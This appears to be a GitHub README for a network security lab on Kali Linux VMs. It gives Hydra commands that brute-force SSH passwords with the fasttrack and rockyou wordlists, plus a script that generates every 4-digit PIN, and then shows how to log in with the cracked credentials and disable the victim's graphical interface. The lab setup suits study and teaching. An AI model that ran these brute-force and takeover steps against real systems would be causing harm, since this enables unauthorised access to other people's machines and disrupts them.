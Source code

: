 # CyberSleuth-Exploring-Network-Security
---
##### This project is intended to be run on Kali Linux virtual machine.
### Instructions
To connect physical machines using Kali Linux on VirtualBox, we had to ensure that the virtual machines have access to the same network. A bridged adapter in networking connects the virtual machine directly to the physical network, enabling it to appear as a distinct device on the network, sharing the host's IP address. Once the VMs are connected, the following steps can be followed.
### 1. Password Decryption with Hydra
#### Method 1: Alphanumerical Password Lists
We will use comprehensive collection of commonly used passwords, to aid in our password decryption efforts. fasttrack.txt and rockyou.txt are two popular password lists.

Navigate to this diectory:
```bash
cd /usr/share/wordlists
```
Run hydra to test different possible passwords.
```bash
hydra -l user -P fasttrack.txt ssh://target_ip -V -F
```
#### Method 2: Numerical Password Guessing
Generate all possible 4 digit passwords combinations with this python script
```python
with open("four_digit_combinations.txt", "w") as f:
   	for i in range(10000):
       	f.write("{:04d}\n".format(i))
```
Execute .py file in terminal
```bash
python four_digit_generator.py
```
Hydra brute-force attack
```bash
hydra -l user -P four_digit_combinations.txt -t 4 -V -o hydra_output.txt ssh://target_ip
```
### 2. Using SSH to Gain Control of a Host Computer
Once the attacker has obtained valid credentials, they can use SSH to connect to the target host computer. The command to initiate an SSH connection is:
```bash
ssh username@target_host
```
Upon connecting, SSH prompts for the password associated with the provided username. The attacker enters the obtained password.

### 3. Disabling the Graphical User Interface (GUI) 
Now that attacker has gained access to victim machine there is scope for damage.
To disable GUI temporarily:
```bash
sudo systemctl isolate multi-user.target
```
To enable the GUI temporarily:
```
sudo systemctl isolate graphical.target
```
